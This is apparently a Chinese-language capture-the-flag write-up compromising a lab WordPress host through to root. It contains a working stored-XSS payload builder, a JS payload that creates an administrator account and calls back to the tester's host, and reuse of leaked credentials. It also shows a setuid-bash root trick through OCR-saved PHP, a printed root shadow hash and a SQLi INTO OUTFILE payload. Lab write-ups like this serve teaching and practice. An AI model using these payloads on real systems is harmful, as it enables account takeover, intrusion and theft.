





# Recon
```
22/tcp   open     ssh         syn-ack ttl 63
80/tcp   filtered http        no-response
443/tcp  open     https       syn-ack ttl 63
8001/tcp filtered vcom-tunnel no-response
```

ttl 结果如下: 均为一跳, 端口背后服务均为主机, ttl 63 符合 Linux 一跳后的 ttl 
```sh
sudo lft 10.129.245.215:22
TTL LFT trace to smarthire.htb (10.129.245.215):22/tcp
 1  10.10.16.1 149.7ms

sudo lft 10.129.245.215:443
TTL LFT trace to smarthire.htb (10.129.245.215):443/tcp
 1  10.10.16.1 404.1ms
```

# Web - 443
一个不知道干什么的公司, `Wappalyzer` 指出其使用 wordpress CMS

WP-Scan 指出该版本存在 `CVE-2026-63030` 漏洞, 即 `wp2shell`, 该漏洞会在末尾讨论
```sh
[+] WordPress version 7.0 identified (Insecure, released on 2026-05-20).
 | Found By: Meta Generator (Passive Detection)
 |  - https://makesense.htb/, Match: 'WordPress 7.0'
 | Confirmed By: Atom Generator (Aggressive Detection)
 |  - https://makesense.htb/?feed=atom, <generator uri="https://wordpress.org/" version="7.0">WordPress</generator>
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WP < 7.0.2 - Facilitated SQLi
 |     Fixed in: 7.0.2
 |     References:
 |      - https://wpscan.com/vulnerability/82a6c423-547b-4910-aea5-044070b08949
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-60137
 |      - https://wordpress.org/news/2026/07/wordpress-7-0-2-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-fpp7-x2x2-2mjf
 |
 | [!] Title: WordPress < 7.0.2 - REST API batch-route confusion and SQLi to RCE
 |     Fixed in: 7.0.2
 |     References:
 |      - https://wpscan.com/vulnerability/73310d64-e790-4a78-ab0a-12995b762dba
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-63030
 |      - https://wordpress.org/news/2026/07/wordpress-7-0-2-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ff9f-jf42-662q
```

底部有一个反馈栏, 没啥用


## Tech Stack
技术栈如下: 服务器使用 apache server, 暂不考虑子域名爆破, 同时给出域名 `makesense.htb`
```http
HTTP/1.1 500 Internal Server Error
Date: Tue, 04 Aug 2026 07:49:23 GMT
Server: Apache/2.4.58 (Ubuntu)
Link: <https://makesense.htb/index.php?rest_route=/>; rel="https://api.w.org/"
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 24379
```

添加域名后再次访问, 无区别

## JS analyse
在检查页面源码时发现以下内容:
```html
<script id="whisper-wrapper-js-extra">
var webagency_ajax = {"ajax_url":"https://makesense.htb/wp-admin/admin-ajax.php","nonce":"3259285fca","theme_url":"https://makesense.htb/wp-content/themes/webagency","site_url":"https://makesense.htb"};
//# sourceURL=whisper-wrapper-js-extra
</script>
<script id="whisper-wrapper-js" src="https://makesense.htb/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js?ver=1.0"></script>
<script id="webagency-main-js" src="https://makesense.htb/wp-content/themes/webagency/assets/js/main.js?ver=1.0"></script>
<script id="wp-emoji-settings" type="application/json">
```

跟进得到 `https://makesense.htb/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js`, 


JS 中硬编码了密钥以及加密方式: 
```js
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';
async encryptPayload(payload) {
        const encoder = new TextEncoder();
        const data = encoder.encode(JSON.stringify(payload));

        // Derive key from password using SHA-256
        const keyMaterial = await crypto.subtle.digest(
            'SHA-256',
            encoder.encode(ENCRYPTION_KEY)
        );

        const key = await crypto.subtle.importKey(
            'raw',
            keyMaterial,
            { name: 'AES-GCM' },
            false,
            ['encrypt']
        );

        // Generate random IV (12 bytes for AES-GCM)
        const iv = crypto.getRandomValues(new Uint8Array(12));

        // Encrypt
        const encrypted = await crypto.subtle.encrypt(
            { name: 'AES-GCM', iv: iv },
            key,
            data
        );

        // Combine IV + ciphertext (tag is appended automatically by WebCrypto)
        const combined = new Uint8Array(iv.length + encrypted.byteLength);
        combined.set(iv, 0);
        combined.set(new Uint8Array(encrypted), iv.length);

        // Convert to base64
        let binary = '';
        combined.forEach(byte => binary += String.fromCharCode(byte));
        return btoa(binary);
    }
```
整体逻辑为: 
   1. 获得语音输入的 `wav` 文件, 上传的服务器, 服务器返回一个 `postid`
   2. 在本地进行转写和编码, 再次发送给服务器, 需要在参数中对应 `postid`, 
   3. 服务器会在一个 POST 中展示文本和音频,

服务端分别处理音频和文本, 即打印的文本是可控的, 在我们已知编码方式下可以构造 XSS 攻击, 加密代码如下:
```python
import json, base64, os, hashlib
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
key = hashlib.sha256(b"bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI").digest()
data = json.dumps({
    "transcription": '<script src="http://10.10.16.174:1337/p.js"></script>',
    "summary": "your summary here"
}, separators=(",", ":")).encode()
iv = os.urandom(12)
print(base64.b64encode(iv + AESGCM(key).encrypt(iv, data, None)).decode())
```

## XSS
```sh
curl -sk -X POST 'https://makesense.htb/wp-admin/admin-ajax.php' \
    -F 'action=save_voice_raw' \
    -F 'nonce=3259285fca' \
    -F 'voice_recording=@not_matter.wav;type=audio/wav;filename=voice-message.wav'

{"success":true,"data": { "message": "Audio saved, processing started." , "post_id":78}}
export token=$(python3 ./payload_construct.py)
curl -sk -X POST 'https://makesense.htb/wp-admin/admin-ajax.php' \
    -F 'action=save_voice_results' \
    -F "nonce=3259285fca" \
    -F "post_id=78" \
    -F "encrypted_payload=$token"

{"success":true,"data":{"message":"Results saved successfully!","post_id":78}}
```

同时做监听, 在本地挂一个创建 wp-admin 的js载荷:
```js
var x = new XMLHttpRequest();
x.open("GET", "/wp-admin/user-new.php", false);
x.send();
var match = /ser" value="([^"]*?)"/g.exec(x.responseText);
if (match) {
    var nonce = match[1];
    var params = "action=createuser&_wpnonce_create-user=" + nonce + 
                 "&user_login=stackcat&email=admin@example.com&pass1=stackcat123!&pass2=stackcat123!&role=administrator";
    var p = new XMLHttpRequest();
    p.open("POST", "/wp-admin/user-new.php", true);
    p.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    p.send(params);
}
var y = new XMLHttpRequest();
y.open("GET", "http://10.10.16.174:1337/pwned", false);
y.send();
```
在本地监听:
```sh
::ffff:10.129.19.163 - - [04/Aug/2026 13:23:27] "GET /p.js HTTP/1.1" 200 -
::ffff:10.129.19.163 - - [04/Aug/2026 13:23:28] code 404, message File not found
::ffff:10.129.19.163 - - [04/Aug/2026 13:23:28] "GET /pwned HTTP/1.1" 404 -
```

用户创建成功, 登陆 Wordpress, 值得注意的一点时, 这个 worddpress 使用的数据库是 SQLlite


Google 一个 RCE 插件上传, 得到一个反弹 shell.
# shell as www-data
```sh
pwncat-vl -lp 4444
(local) pwncat$
(remote) www-data@makesense.htb:/var/www/html$ ls -liah
```

一些枚举, 查看 `wp-config.php`, 不过 wp 后端数据库为 `sqlite` 而不是 mysql:
```sh
(remote) www-data@makesense.htb:/var/www/html$ cat wp-config.php
<?php
// SQLite database configuration
define( 'DB_DIR', __DIR__ . '/wp-content/database/' );
define( 'DB_FILE', '.ht.sqlite' );

// Dummy MySQL settings (required but not used with SQLite)
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'walter' );
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );

$table_prefix = 'wp_';
define( 'WP_DEBUG', false );
...
```

用户以及组情况: 除去 root 和 www-data 有两个具有家目录且配置 shell 的用户, 没什么有趣的组权限
```sh
(remote) www-data@makesense.htb:/var/www/html$ cat /etc/passwd|grep sh|grep home
walter:x:1000:1000:walter:/home/walter:/bin/bash
admin:x:1001:1001:,,,:/home/admin:/bin/bash
(remote) www-data@makesense.htb:/var/www/html$ id admin
uid=1001(admin) gid=1001(admin) groups=1001(admin),100(users)
(remote) www-data@makesense.htb:/var/www/html$ id walter
uid=1000(walter) gid=1000(walter) groups=1000(walter)
(remote) www-data@makesense.htb:/var/www/html$ id www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

值得注意的是硬编码的数据库凭据: `walter:bhHDAEgXvri3!` 中的数据库用户与系统用户有重合, 可以测试密码费用, 但先完成枚举:
```sh
(remote) www-data@makesense.htb:/var/www/html$ cat /etc/crontab
SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
...
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
(remote) www-data@makesense.htb:/var/www/html$ cat /etc/crontab^C

(remote) www-data@makesense.htb:/var/www/html$ getcap -r / 2>/dev/null
/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin,cap_sys_resource=p
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep

(remote) www-data@makesense.htb:/var/www/html$ find / -type f -perm -04000 -ls 2>/dev/null
    14914     20 -rwsr-xr-x   1 root     root        18736 Apr 10 10:57 /usr/lib/polkit-1/polkit-agent-helper-1
...
   394750     16 -rwsr-xr-x   1 root     root          15232 May 26 20:39 /opt/google/chrome/chrome-sandbox

(remote) www-data@makesense.htb:/var/www/html$ systemctl list-timers
NEXT                            LEFT LAST                              PASSED UNIT                           ACTIVATES
Tue 2026-08-04 06:00:00 UTC 4min 37s Tue 2026-08-04 05:50:01 UTC     5min ago sysstat-collect.timer          sysstat-collect.service
Tue 2026-08-04 06:09:00 UTC    13min Tue 2026-08-04 05:39:01 UTC    16min ago phpsessionclean.timer          phpsessionclean.service
...
Mon 2026-08-10 15:56:34 UTC   6 days Mon 2026-05-25 19:28:58 UTC            - update-notifier-motd.timer     update-notifier-motd.service
```

没什么可以 quickwin 的权限、计划任务或timer, 不过其指出机器上装有 chrome, 在后续可以稍加关注

网络及端口情况:  一张网卡, 有端口扫描中显示 `filter` 的 `80, 8001` 端口
```sh
(remote) www-data@makesense.htb:/var/www/html$ ss -lntp
State                    Recv-Q                   Send-Q                                       Local Address:Port
LISTEN                   0                        4096                                             127.0.0.1:8001
LISTEN                   0                        511                                                0.0.0.0:443
LISTEN                   0                        511                                                0.0.0.0:80
LISTEN                   0                        4096                                               0.0.0.0:22
LISTEN                   0                        4096                                         127.0.0.53%lo:53
LISTEN                   0                        4096                                            127.0.0.54:53
(remote) www-data@makesense.htb:/var/www/html$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:2a:2f brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.129.19.163/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 3225sec preferred_lft 3225sec
```

# shell as walter
在枚举完成后尝试凭据复用:
```sh
ssh walter@makesense.htb
The authenticity of host 'makesense.htb (10.129.19.163)' can't be established.
ED25519 key fingerprint is: SHA256:ZuPyKYvneacLwQJfW7aR8rIt6ppYCS22aWYI5nO3Ddk
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'makesense.htb' (ED25519) to the list of known hosts.
walter@makesense.htb's password:
...
walter@makesense:~$ whoami
walter
walter@makesense:~$ curl -s 127.0.0.1:80 |tail -n 4
<body id="error-page">
	<div class="wp-die-message"><p>There has been a critical error on this website.</p><p><a href="https://wordpress.org/documentation/article/faq-troubleshooting/">Learn more about troubleshooting WordPress.</a></p></div></body
</html>
walter@makesense:~$ curl -sk https://127.0.0.1:443 |tail -n 4
<body id="error-page">
	<div class="wp-die-message"><p>There has been a critical error on this website.</p><p><a href="https://wordpress.org/documentation/article/faq-troubleshooting/">Learn more about troubleshooting WordPress.</a></p></div></body
</html>
```

`80` 和 `443` 一个站点, 查看 `8001`: 需要认证的以 root 权限运行的 ocr4 程序, 语言使用 `PHP8.3.6`
```sh
walter@makesense:~$ curl -v 127.0.0.1:8001
*   Trying 127.0.0.1:8001...
* Connected to 127.0.0.1 (127.0.0.1) port 8001
> GET / HTTP/1.1
> Host: 127.0.0.1:8001
> User-Agent: curl/8.5.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 401 Unauthorized
< Host: 127.0.0.1:8001
< Date: Tue, 04 Aug 2026 06:06:48 GMT
< Connection: close
< X-Powered-By: PHP/8.3.6
< Set-Cookie: PHPSESSID=rc4anghh65itfut65ptgjrafj1; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< WWW-Authenticate: Basic realm="OCR Protected"
< Content-type: text/html; charset=UTF-8
<
* Closing connection
Authentication required.

walter@makesense:~$ ps -ef|grep 8001
root        1404    1397  0 04:09 ?        00:00:00 php -S 127.0.0.1:8001 -t /root/ocr4/
```

尝试复用 `walter` 凭据: 认证成功, 有 html 页面, 做端口转发
```sh
walter@makesense:~$ curl -u walter:'JbhHDAEgXvri3!' 127.0.0.1:8001
<!DOCTYPE html>
<html lang="en">
<head>
...

```

Wow, 你 画 我 猜!
尝试画一个 hello, 有一个保存按钮, 可以自由输入文件名和后缀名, 按下后给出了路径: `saved\hallo.txt`, 换个后缀名呢? 有趣的是, 其可以以 PHP 作为后缀名.
```sh
curl -u walter:'JbhHDAEgXvri3!' http://127.0.0.1:8001/saved/hello.txt
hello
```

在浏览器中观察网络流量, 发现其向服务器提交 `"canvas_image": "data:image/png;base64,[data]` , 服务器会返回包含保存文件的 HTML, 同时给出一个 OCR_id:
```html

            <form method="post">
                <p class="caption">Save as</p>
                <input type="hidden" name="ocr_id" value="ocr_6a71864c74ab91.68766683">
                <div class="save-row">
                    <input type="text" name="filename" placeholder="result.txt" required>
                    <button type="submit" name="save_output" class="solid-btn">Save</button>
                </div>
            </form>
        </div>
```

最终保存请求格式为: `POST` body: `ocr_id=ocr_6a71868bd8ceb7.27898801&filename=222&save_output=` 最终保存文件为  `saved\filename` 

## construct php shell image:
最佳方法为写入 PHP oneline, 即 `<?php system("/tmp/k" );?>` 最大化减少特殊字符

```sh
# k:
cp /bin/bash /tmp/o
chown root:root /tmp/o
chmod +s /tmp/o
```

但是, 经过测试其对常见字体的特殊字符的识别能力和一只成年香蕉没有明显区别, 尤其是 `/tmp/k` 部分, 在搜索最适合 ocr 识别的字体后我找到这篇文章:
https://stackoverflow.com/questions/316068/what-is-the-ideal-font-for-ocr

其中有这样一个回答:
:::note
It really depends on the OCR engine considered.
For gocr, FreeMono is the best, see gocr documentation.
For tesseract, DejaVu-Serif works well, see https://superuser.com/a/1543382/280936
For abbyocr, verdana is good, see this comparison
See also this wrap-up: https://www.monperrus.net/martin/perfect-ocr-digital-data
:::

为了尽可能简化流程(节约token), 最好优先找到本机的 ocr: 结果显示其为  `tesseract-ocr`, 对应的最佳识别字体为 DejaVu-Serif
```sh
walter@makesense:/tmp$ find / -name '*ocr*' -ls 2>/dev/null
   158376      4 drwxr-xr-x   4 root     root         4096 Aug  4 06:10 /root/ocr4
   139998      4 -rwxr-xr-x   1 root     root          156 Jun  5 10:50 /root/.scripts/start_ocr4.sh
   310392      4 drwxr-xr-x   3 root     root         4096 May 25 19:38 /usr/share/tesseract-ocr
   310404      4 -rw-r--r--   1 root     root           40 Apr  7  2024 /usr/share/tesseract-ocr/5/tessdata/configs/hocr
   311307      4 drwxr-xr-x   2 root     root         4096 May 25 19:38 /usr/share/doc/tesseract-ocr-eng
   311317      4 drwxr-xr-x   2 root     root         4096 May 25 19:38 /usr/share/doc/tesseract-ocr
   311312      4 drwxr-xr-x   2 root     root         4096 May 25 19:38 /usr/share/doc/tesseract-ocr-osd
```

之后就是把格式喂给 AI 让它自己测试, 最终得到这张图片:


# root3d!
```sh
o-5.2# cat /etc/shadow
root:$y$j9T$oBMykAbyiOXMRmKow26tM0$k1tS0gbfGLr/iaC9BiWBsKCkC2G129/fuXrB1NZH9v4:20605:0:99999:7:::
```

## beyond root - wp2shell
`CVE-2026-63030` 漏洞实际上无法利用:
```sh
./wp2shell-scan.py exploit -u https://makesense.htb --i-have-authorization
[•] CVE-2026-63030 - WordPress Core wp2shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[*] https://makesense.htb/ -- exploit (file: wp2shell-phpinfo-f7e74d38.php)
    [*] trying OUTFILE path: /var/www/html/wp2shell-phpinfo-f7e74d38.php
    [*] batch response: 207, 1.41s
    [-] https://makesense.htb/wp2shell-phpinfo-f7e74d38.php -> HTTP 500
    [-] Exploit not confirmed. Likely causes:
        * site patched (6.9.5+ / 7.0.2+)
        * MySQL FILE privilege missing or secure_file_priv blocks write
        * webroot path differs — retry with --webroot
        * WAF blocking /batch/v1
```

该漏洞部分描述如下: 
:::note
Where the database user holds the FILE privilege, this leads to remote code execution via SELECT ... INTO OUTFILE. No plugins are required. A stock WordPress install is affected.
:::

漏洞利用需要使用 `INTO OUTFILE` 将数据写入磁盘, 但该机器使用 sqlite 作为后端数据库, 在Wordpress 上使用 sqlite 依赖 `SQLite Database Integration` 插件, 其相当于一个 MySQL2SQLite 翻译器, 注入仍然需要使用 MYSQL 语法

RCE 的注入点如下:
```sql
1) OR 1=1 LIMIT 1 INTO OUTFILE '<webroot>/<name>.php' LINES TERMINATED BY '<?php ...?>'-- -
```

然而, `INTO OUTFILE '<webroot>/<name>.php' LINES TERMINATED BY` 是 MySQL 的独有语法, 该插件无法将其翻译为 Sqlite 语法, 因而 RCE 无效